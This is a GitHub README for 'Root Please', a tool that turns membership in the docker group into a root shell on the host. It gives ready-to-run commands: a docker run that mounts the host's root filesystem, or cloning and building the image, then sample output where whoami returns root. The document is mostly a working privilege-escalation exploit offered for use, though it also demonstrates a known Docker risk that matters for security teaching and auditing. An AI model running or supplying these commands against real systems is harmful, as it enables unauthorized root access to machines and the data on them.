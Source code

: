 Root Please
===========

If you're a member of the 'docker' group on a machine, this command gives you a root shell on the host OS. [See my blog post for details](https://fosterelli.co/privilege-escalation-via-docker.html).

How to Use
----------

Though Docker Hub:

```bash
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -i -t rootplease
```

And the result:

```bash
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```
